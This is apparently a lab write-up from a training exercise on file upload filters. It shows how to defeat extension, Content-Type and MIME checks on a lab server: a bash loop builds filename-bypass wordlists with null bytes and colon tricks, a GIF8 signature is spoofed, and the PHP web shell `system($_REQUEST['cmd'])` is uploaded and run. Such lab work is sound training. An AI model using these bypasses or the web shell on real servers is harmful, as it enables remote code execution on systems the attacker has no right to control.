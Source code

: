 # Type Filters

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

As the Lab suggests, the server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to guarantee that the file uploaded is an image.

So we must apply all the knowledge learned so far.

We start by capturing the request and send to the Intruder.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets cover 3 components in this test:

* File extension - filename="§x§"
* Content-type - image/jpg
* File Signature - GIF8

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

To iterate the values of the file extensions let's create our own wordlist with the following script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Copy the content to the Intruder's payload configuration and run it. Don't forget to untick the payload encoding checkbox.

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

When the Intruder finishes the attack we can order by length, since the successfully uploaded files have a length of 229 and 230.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now lets modify the Request by send it to the Repeater.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We change the name (optional) to **shell.gif:.phar** and for the php code we change to this:

```php
<?php system($_REQUEST['cmd']); ?>
```



<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We do a simple just by execute the `id` command, as we can see from the output the above we manage to get a webshell!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have to found the flag, that in our case is in our root directory.
